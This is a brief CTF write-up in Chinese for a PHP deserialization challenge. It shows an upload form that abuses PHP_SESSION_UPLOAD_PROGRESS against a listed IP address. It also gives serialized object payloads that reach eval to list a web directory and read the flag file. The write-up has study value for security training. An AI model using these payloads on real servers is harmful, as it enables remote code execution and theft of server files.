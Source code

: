 #出题：反序列化

##WP
源码泄露：WWW.ZIP


审代码，发现访问session页面,传入get型参数a=s:7:"phpinfo"跳转phpinfo页面

构建一个表单上传到session.php，利用filename参数构造php_serialize的反序列
```
<form action="http://54.200.169.99:7000/session.php?" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

## wp2
![](https://i.loli.net/2018/11/14/5bec065f83066.png)

利用poc.php构造一些查询语句，让php
-serialize 构造的序列化，被php反解出来执行构造函数的eval

查当前目录下文件
```
|O:4:\"Anti\":1:{s:4:\"info\";s:42:\"print_r(scandir(\"/home/wwwroot/default\"));\";}
```

查内容
```
|O:4:\"Anti\":1:{s:4:\"info\";s:65:\"print_r(file_get_contents(\"/home/wwwroot/default/f1ag_i3_h3re\"));\";}
```

原题payload
```
https://blog.spoock.com/2016/11/15/jarvisoj-web-writeup-1/
```
